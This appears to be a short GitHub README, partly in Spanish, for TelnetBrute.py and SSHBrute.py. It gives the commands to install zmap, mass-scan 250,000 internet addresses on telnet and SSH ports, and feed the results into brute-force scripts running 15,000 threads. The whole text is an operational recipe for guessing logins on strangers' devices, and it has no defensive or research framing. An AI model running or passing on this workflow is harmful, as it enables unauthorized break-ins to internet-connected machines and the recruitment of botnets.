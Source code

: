 [VPS CentOS 6.9/6.8] (Recomendado)

- Install zmap

1- sh CentOS_zmap_auto_install.sh OR Debian_zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000    ---OR---    zmap -p22 -o mfussh.txt -N 250000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



Video:

<iframe width="560" height="315" src="https://www.youtube.com/embed/ZOCRpKSFLfs" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
